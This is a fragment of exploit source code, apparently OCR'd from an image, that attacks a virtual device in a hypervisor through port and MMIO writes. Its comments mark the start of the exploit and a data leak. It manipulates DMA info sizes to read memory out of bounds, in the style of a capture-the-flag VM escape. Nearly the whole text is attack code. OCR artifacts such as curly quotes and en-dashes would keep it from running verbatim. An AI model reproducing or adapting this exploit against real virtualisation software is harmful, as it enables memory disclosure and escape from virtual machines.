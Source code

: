 vm_cmd(“outl 0xCFC 6”)

​

#start exploit

b64write(0x1000,0x2000,p64(3)+b’A’*(0x2000–8))

​

#leak data first

#set info size

writeq(base_io,2)

#info 0

writeq(base_io+8,0)

writeq(base_io+0x10,0x1000)

writeq(base_io+0x18,0)

writeq(base_io+0x20,0x1000)

writeq(base_io+0x28,0)

#info 1

#change dma_info_size

writeq(base_io+8,1)

writeq(base_io+0x10,0)

writeq(base_io+0x18,base_io)

writeq(base_io+0x20,8)

writeq(base_io+0x28,1)

​

#info 2

#read back data

writeq(base_io+8,2)

writeq(base_io+0x10,0x10000000000000000–0xe00)

writeq(base_io+0x18,0x1000)

writeq(base_io+0x20,0x1000)

writeq(base_io+0x28,1)

readq(base_io+0x30)

​

data = b64read(0x1000,0x1000)

#print(“data :”, data)

